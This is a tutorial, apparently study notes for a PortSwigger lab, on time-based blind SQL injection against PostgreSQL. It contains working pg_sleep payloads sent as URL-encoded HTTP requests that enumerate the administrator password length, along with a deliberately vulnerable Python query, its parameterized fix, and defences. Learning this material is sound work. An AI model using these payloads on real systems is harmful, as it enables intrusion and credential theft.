

## Blind SQL Injection with Time Delays

Blind SQL Injection is a technique used when the attacker cannot see the results of their injected SQL queries directly. Instead, they rely on indirect feedback to infer the structure and contents of the database. One common method is to use time delays to determine whether a condition is true or false.

### Understanding Time Delays

In Blind SQL Injection, the attacker injects SQL commands that cause the database to wait for a certain amount of time if a specific condition is true. By measuring the response time of the application, the attacker can determine whether the condition is true or false.

For example, consider the following SQL query:

```sql
SELECT CASE WHEN EXISTS (SELECT * FROM users WHERE username = 'administrator') THEN pg_sleep(10) END;
```

This query checks if the `users` table exists and if the `administrator` username exists in the `users` table. If both conditions are true, the `pg_sleep(10)` function causes the database to wait for 10 seconds before responding.

### Example Scenario

Let's walk through the example provided in the lecture transcript:

1. **Check if the `users` table exists and if the `administrator` username exists**:
   
   The attacker constructs the following SQL query:

   ```sql
   SELECT CASE WHEN EXISTS (SELECT * FROM users WHERE username = 'administrator') THEN pg_sleep(10) END;
   ```

   This query checks if the `users` table exists and if the `administrator` username exists in the `users` table. If both conditions are true, the database will wait for 10 seconds before responding.

2. **URL Encoding**:
   
   The attacker needs to URL encode the SQL query to ensure it is properly transmitted through the HTTP request. For example, the query might be encoded as follows:

   ```
   SELECT%20CASE%20WHEN%20EXISTS%20(SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27administrator%27)%20THEN%20pg_sleep(10)%20END;
   ```

3. **Sending the Request**:
   
   The attacker sends the encoded SQL query as part of an HTTP request. For example:

   ```http
   GET /login?query=SELECT%20CASE%20WHEN%20EXISTS%20(SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27administrator%27)%20THEN%20pg_sleep(10)%20END; HTTP/1.1
   Host: example.com
   ```

   The server processes the request and executes the SQL query. If the conditions are true, the server will wait for 10 seconds before responding.

4. **Observing the Response Time**:
   
   The attacker measures the response time of the server. If the response takes significantly longer (e.g., 10 seconds), it indicates that the conditions were true. If the response is quick, it indicates that the conditions were false.

### Enumerating the Password Length

Once the attacker confirms that the `users` table exists and that the `administrator` username exists, they can proceed to enumerate the password length. This is done by asking the database a series of true/false questions about the length of the password.

For example, the attacker might construct the following SQL query:

```sql
SELECT CASE WHEN EXISTS (SELECT * FROM users WHERE username = 'administrator' AND LENGTH(password) > 1) THEN pg_sleep(10) END;
```

This query checks if the `administrator` username exists and if the length of the password is greater than 1. If both conditions are true, the database will wait for 10 seconds before responding.

By incrementally increasing the length value, the attacker can determine the exact length of the password.

### Complete Example

Here is a complete example of the process:

1. **Check if the `users` table exists and if the `administrator` username exists**:

   ```http
   GET /login?query=SELECT%20CASE%20WHEN%20EXISTS%20(SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27administrator%27)%20THEN%20pg_sleep(10)%20END; HTTP/1.1
   Host: example.com
   ```

   The server responds after 10 seconds, indicating that the conditions are true.

2. **Enumerate the password length**:

   ```http
   GET /login?query=SELECT%20CASE%20WHEN%20EXISTS%20(SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27administrator%27%20AND%20LENGTH(password)%20>%201)%20THEN%20pg_sleep(10)%20END; HTTP/1.1
   Host: example.com
   ```

   The server responds after 10 seconds, indicating that the password length is greater than 1.

   ```http
   GET /login?query=SELECT%20CASE%20WHEN%20EXISTS%20(SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27administrator%27%20AND%20LENGTH(password)%20>%202)%20THEN%20pg_sleep(10)%20END; HTTP/1.1
   Host: example.com
   ```

   The server responds quickly, indicating that the password length is not greater than 2.

   By continuing this process, the attacker can determine the exact length of the password.

### Mermaid Diagrams

Here is a mermaid diagram illustrating the process:



### Common Pitfalls

- **Improper Input Validation**: Failing to validate user input can lead to SQL Injection vulnerabilities.
- **Use of Dynamic SQL**: Constructing SQL queries using string concatenation can make the application vulnerable to SQL Injection.
- **Lack of Prepared Statements**: Not using prepared statements or parameterized queries can expose the application to SQL Injection attacks.

### How to Prevent / Defend Against SQL Injection

#### Detection

- **Web Application Firewalls (WAFs)**: WAFs can help detect and block SQL Injection attempts.
- **Logging and Monitoring**: Regularly monitor logs for suspicious activity that could indicate SQL Injection attempts.

#### Prevention

- **Input Validation**: Validate all user input to ensure it meets expected formats and constraints.
- **Prepared Statements**: Use prepared statements or parameterized queries to separate SQL logic from user input.
- **Stored Procedures**: Use stored procedures to encapsulate SQL logic and reduce the risk of SQL Injection.

#### Secure Coding Fixes

Here is an example of a vulnerable code snippet and its secure counterpart:

**Vulnerable Code**:

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM users WHERE username = '{username}'"
    cursor.execute(query)
    result = cursor.fetchone()
    conn.close()
    return result
```

**Secure Code**:

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = "SELECT * FROM users WHERE username = ?"
    cursor.execute(query, (username,))
    result = cursor.fetchone()
    conn.close()
    return result
```

In the secure code, the `execute` method uses a parameterized query, which prevents SQL Injection.

#### Configuration Hardening

- **Database Permissions**: Ensure that database permissions are set appropriately to limit the actions that can be performed by the application.
- **Least Privilege Principle**: Follow the principle of least privilege by granting the minimum necessary permissions to the application.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various types of SQL Injection attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security techniques, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is intentionally vulnerable to common web application flaws, including SQL Injection.

By thoroughly understanding the concepts, techniques, and defenses related to SQL Injection, you can better protect your web applications from these serious vulnerabilities.

---
<!-- nav -->
[[02-Lab 14 Blind SQL Injection with Time Delays and Information Retrieval|Lab 14 Blind SQL Injection with Time Delays and Information Retrieval]] | [[Web Security (PortSwigger)/02-SQL Injection/15-Lab 14 Blind SQL injection with time delays and information retrieval/00-Overview|Overview]] | [[04-Blind SQL Injection|Blind SQL Injection]]
